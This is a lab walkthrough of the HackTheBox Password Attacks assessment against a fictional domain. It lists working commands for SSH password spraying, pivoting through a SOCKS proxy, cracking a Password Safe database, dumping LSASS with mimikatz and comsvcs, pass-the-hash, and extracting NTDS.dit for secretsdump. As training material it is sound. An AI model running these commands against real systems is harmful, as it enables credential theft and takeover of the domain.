










This is a short writeup of the assessment found in the Password Attacks module on hackthebox. There is an attack summary section at the end that you can use as hints for what you need to do next without providing you with the exact commands.

## Initial Access:
To start, we are given an employee name, Betty Jayde, who works for Nexura LLC and a password that she has been found to reuse on multiple websites (`Texas123!@#`). 
Additionally, we are given a list of domain-joined hosts along with their internal IP's.

We are also provided an external IP which is for the DMZ01 server, so we can perform a basic nmap scan of all ports to see if we can identify any that are open:


It appears that only port 22 (SSH) is open so we will attempt to login with the credentials provided for Betty Jayde. However, seeing as we are not given an exact username or format we can generate a list of potential usernames for Betty Jayde using the `username-anarchy` tool.

`./username-anarchy betty jayde > bjayde.txt`

`hydra -L bjayde.txt -p 'Texas123!@#' ssh://<DMZ01 IP>`




As we have found valid credentials for Betty Jayde we can now ssh into DMZ01.


## Credential Discovery:
Now that we have shell access to the first host we should search it for credentials that may belong to other users. As shown in the password attacks module, we can start by searching the .bash_history file in the users home directory since that's the simplest step before attempting to search for databases, scripts, config files, and other potential sources. 

`sshpass -p "<REDACTED PASS>" ssh hwilliam@file01`

We find a username and password of a new user `hwilliam` in a login attempt to the FILE01 server. Using sshpass can expose credentials through shell history depending on how it is invoked, so credentials should not be entered directly into the command line where avoidable.


## Internal Network Access:
Since we don't have external access to the rest of the domain hosts, we will have to use DMZ01 as a proxy between our attack host and the internal domain. We can set up a chisel server or just use SSH port forwarding to run in the background.

On our attack host, add this line to the end of /etc/proxychains.conf:
`socks5  127.0.0.1 9050`

In a new tab:
`ssh -D 9050 -N jbetty@<DMZ01 IP>`

As the credentials for hwilliam were found in a login attempt for FILE01 we can try to gain access to FILE01. Unfortunately, the login failed so the next logical step would be to attempt to reuse those credentials in JUMP01 as jump servers are used for authorisation before gaining access to the rest of the domain. 

Since JUMP01 acts as an intermediary into the internal network, we can route the connection through the SOCKS proxy established on DMZ01.

`proxychains evil-winrm -i 172.16.119.7 -u hwilliam -p '<REDACTED PASS>'`




The login succeeded and we now have shell access to JUMP01. Unfortunately, nothing useful is found locally on the jump server so we instead check any smb shares the hwilliam user has access to which are available on FILE01.

`proxychains nxc smb <FILE01 IP> -u hwilliam -p '<REDACTED PASS>' --shares`




hwilliam has access to HR, Private and transfer shares. We can start with enumerating HR.

`proxychains smbclient //<FILE01 IP>/HR -U 'nexura\hwilliam'`


## Password Manager Extraction:
We find a potentially useful file in the archive folder, Employee-Passwords_OLD.psafe3. Retrieve the file:

`get Employee-Passwords_OLD.psafe3`

For us this means that we need the Master Password. We can use the tool **pwsafe2john.py** to get the hash for the **Master Password** and then try to **brute force** it using a tool such as **John** or **Hashcat**.

`pwsafe2john.py Employee-Passwords_OLD.psafe3 > master.hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt master.hash`




We find the master password, gaining the usernames and passwords of two new users.




We can retry gaining access to JUMP01 again using these new users since hwilliam didn't have access.

`proxychains evil-winrm -i 172.16.119.7 -u bdavid -p '<bdavid pass>'`

Check local user privileges with `net localgroup`.





## Credential Dumping:
bdavid is part of the Administrators group. We can use either LSASS or NTDS dump to try and extract any hashes that may exist on the system. Since dumping LSASS is slightly simpler we can start with that:

Firstly, we will need mimikatz on the jump server, we can either upload mimikatz to the JUMP01 server and have it run on the target or retrieve the dump file back to our attack host and run pypykatz on it locally. 

As we already have shell access via evilwinrm we can use its inbuilt upload functionality to transfer mimikatz onto the jump sever. 
`upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`

`.\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" exit`





If you needed to go via the download route:

We would firstly need to dump the lsass process from memory. You can use task manager to create dump file if you have GUI access (by right clicking the lsass process in task manager and selecting "Create memory dump file") or use rundll32.exe and comsvcs.dll with shell access . It is worth noting that rundll32 is often flagged as malicious by modern AV's.

If using rundll32 you will need the PID of the LSASS process
First lets check the PID of lsass.exe. Either run `tasklist /svc` on cmd or `Get-Process lsass` on powershell. Now create the dump:

`rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full`
(Make sure to insert the PID of the lsass process into the above command)
Then transfer the dump file back to our attack host using evilwinrm inbuilt download functionality:
`download lsass.dmp`

Then run pypkatz on the dump file:
`pypykatz lsa minidump <path to lsass.dmp>`

Now that we have obtained an NTLM hash for the stom user we could attempt to perform a pass the hash attack:

`proxychains evil-winrm -i 172.16.119.11 -u stom -H 21ea958524cfd9a7791737f8d2f764fa`


## Domain Administrator Compromise:
The login succeeds. Next, we check privileges that the stom user has:





Fortunately, stom is part of the Domain Admins group, which we will use for the next step. We will firstly need to create a shadow copy of the drive containing the ntds.dit which is usually the C drive.
We use VSS for this because it is designed to make copies of volumes that may be read & written to without needing to bring a particular application or system down.

First create a temporary directory to store the ntds.dit file:
`mkdir C:\ntds`

Next create the shadow copy of the C drive:
`vssadmin CREATE SHADOW /For=C:`




Then move the ntds.dit file from the shadow copy to a directory on the main drive to prep it to be moved to our attack host. Use the volume name that was provided to you from the previous command (underlined in the above image) as yours could be different.
```powershell
cmd.exe /c copy <volume name>\Windows\NTDS\NTDS.dit c:\ntds\NTDS.dit
```

Move the ntds.dit file back to our attack host:
`download NTDS.dit`

You will also require the SYSTEM hive file which contains the system boot key used for encrypting and decrypting the hashes stored in the ntds.dit file.  

Use the windows registry to save a copy of the system hive:
`reg.exe save hklm\system C:\system.save`

`download C:\system.save`

Then extract the domain administrators NTLM hash from the ntds.dit file using impacket-secretsdump to complete the password attacks module assessment:
`impacket-secretsdump -ntds NTDS.dit -system system.save LOCAL`





## Attack Path Summary 
1. Enumerated potential usernames for Betty Jayde. 
2. Reused her known password against SSH on DMZ01. 
3. Discovered hwilliam credentials in shell history. 
4. Used DMZ01 as a SOCKS proxy to access the internal network. 
5. Accessed JUMP01 using the recovered credentials. 
6. Enumerated SMB shares available to hwilliam. 
7. Retrieved an old Password Safe database from the HR share. 
8. Cracked the Password Safe master password. 
9. Recovered additional domain credentials. 
10. Used bdavid's local administrator privileges to dump LSASS. 
11. Recovered the stom NTLM hash and performed pass-the-hash authentication. 
12. Identified stom as a Domain Admin. 
13. Used VSS to obtain NTDS.dit and the SYSTEM hive. 
14. Extracted domain credential hashes with `secretsdump`.
